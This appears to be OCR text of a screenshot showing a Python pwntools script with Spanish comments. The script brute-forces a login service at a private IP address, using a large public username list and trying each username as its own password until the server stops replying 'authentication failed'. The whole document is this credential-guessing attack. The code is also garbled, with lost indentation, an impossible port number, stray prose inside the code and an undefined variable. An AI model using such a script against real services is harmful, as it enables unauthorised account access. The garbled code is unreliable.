 ```
   sys.exit[1]
#Ctrl+C
#is requesting two parameters
signal.signal(signal.SIGINT,def_handler)
if __name__=='__main__':
    host, port= "172.16.2.178",331337
#ruta del diccionario capacidad de lectura y en formato bites

    f=open("/home/cds/xato-net-10-million-usernames.txt" , "rb")
#cycle for


#console log of the progress
p1=log.progress("Fuerza bruta")
p1.status("Iniciando proceso de fuerza bruta")

time.sleep(2)

for username in f.readlines():
#username.strip deletes "line-jump (\n)"
    username = username.strip()
    #print(username)
#timesleep did it more slowly i think this isnt on the code    
    #time.sleep(4)
    password=username

#decode , decodes byte format
p1.status("Probando la combinacion%s:%s" %(username.decode(),password.decode()))
(como el try catch de javascript)
try:

#tryes a remote conexion on the host, in a port determinated
s = remote(host , port, level='error')
#when apeares the website input username
s.recvuntil(b"username> ")
#you send the username
s.sendline(username)
s.recvuntil(b"password> ")
s.sendline(password)

#server response
#response=s.recv()

except:
 time.sleep(5)
#print(response)
time.sleep(2)

if b"authentication failed" not in response:

p1.success("Se ha encontrado credencial valida -> %s:%s" % (username.decode(), password.decode()))
sys.exit(8)
#code 8 = succesfull message



```
